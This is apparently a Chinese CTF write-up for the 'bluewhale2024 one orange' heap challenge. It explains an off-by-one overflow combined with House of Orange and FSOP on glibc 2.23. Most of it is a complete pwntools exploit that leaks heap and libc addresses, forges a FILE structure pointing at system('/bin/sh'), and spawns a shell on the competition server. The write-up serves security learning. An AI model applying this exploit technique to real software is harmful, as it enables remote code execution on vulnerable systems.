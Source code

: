 ```yaml
---
title: bluewhale2024 - one orange 
date: 2024/5/4 00:11:00
tags:
    - heap - unsorted
    - House of Orange
    - libc2.23
thumbnail: /assets/bluewhale2024/orange.png
excerpt: 利用House of Orange技术，结合堆溢出和libc泄露，成功利用漏洞进行攻击。
---
```


{% note %}
🍊
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.23-0ubuntu11.3|

## 解题思路

没做出来...看到off by one了，但是脑子里全是House of Einherjar，后来想到利用top_chunk，
但是就是没想到可以再利用一个可控制的堆块来控制top_chunk，明明kasio才刚用过这个技巧  
我还纳闷，只能溢出0xe8字节，但是伪造堆块就得消耗至少0x10个字节，没法写全file结构体啊！

除了off by one，剩下的就是House of Orange了，看看博客就能做

后来看了官方wp，可算看懂了，画了堆块示意图如下：

![heap layout](/assets/bluewhale2024/orange.png)

收获如下：

1. 在top_chunk被放入unsorted bin时，会产生2个0x10大小的堆块
2. 调试house of orange的时候可以用`watch *(_IO_FILE*)_IO_list_all`来关注FSOP是如何运行的，
毕竟最后一次malloc完成了很多操作，不方便观察
3. 对chunk做如下操作在这个版本是合法的：
  - `p = malloc(0x118)` -> long[35], size: 0x121
  - `p[-1] = 0x101; p[0x100 / 8] = 0x21`
  - `free(p); p[-1] = 0x1f1` now `p` in unsorted bin
  - `np = malloc(0x1e8)` -> long[61], size: 0x1f1; `p == np`

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './orange'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20790)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
    elf = ELF(EXE)

    def addn(idx:int, size:int):
        sh.sendlineafter(b'4.', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())

    def deln(idx:int) -> int:
        sh.sendlineafter(b'4.', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'delete: ')
        return int(sh.recvline(), 16)

    def edit(idx:int, cont:bytes, overflow:bool=False):
        sh.sendlineafter(b'4.', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        if overflow:
            sh.sendafter(b'cont', cont)
        else:
            sh.sendlineafter(b'cont', cont)
        
    def show(idx:int) -> bytes:
        sh.sendlineafter(b'4.', b'4')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'tent:\n')
        return sh.recvuntil(b'1.')

    addn(1, 0x3d8)
    addn(2, 0x3d8)
    addn(3, 0x3d8) # prepare for page alignment

    # Step 1, construct heap layout
    addn(4, 0x1f8)
    addn(5, 0xe8)

    # Step 2, set size of chunk 4 from 0x201 to 0x2f1
    # overlapping chunk 5
    edit(3, b'0'*0x3d8 + b'\xf1', True)

    # Step 3, free chunk 4 to deceive top_chunk down to chunk 4
    heapBase = deln(4) - 0xbb0
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    # Step 4, shrink top_chunk to make top_chunk in control (editable in chunk 5)
    # top_chunk.size -= 0x210
    addn(4, 0x208)

    # Step 5, mod top_chunk size from 0x20251 to 0x251
    edit(5, p64(0) + p64(0x251))

    # Step 6, malloc a chunk larger than 0x251 to sweep old top_chunk into unsorted bin
    # now in chunk 5, fd contains libc
    addn(6, 0x300)
    val = show(5)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(val[0x10:0x16] + b'\0\0') - 0x58 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'leak libcBase: {hex(libcBase)}'))
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    system = libcBase + libc.symbols['system']

    file = FileStructure()
    file.flags = u64(b'/bin/sh\0')
    file._IO_read_ptr = 0x61
    file._IO_read_base = ioListAll - 0x10
    file._IO_write_ptr = 1
    file.vtable = heapBase + 0x10

    # Step 7, force file structure and set old top_chunk size from 0x231 to 0x61
    # in this case, old top_chunk falls in small_bin
    # and force vtable by the way
    edit(5, bytes(file))
    edit(1, p64(0)*3 + p64(system))

    # Step 8, malloc a chunk larger than 0x60 to trigger FSOP
    addn(7, 0x100)

    sh.clean()
    sh.interactive()
```

## 参考文献

[House of Orange](https://www.cnblogs.com/ZIKH26/articles/16712469.html)
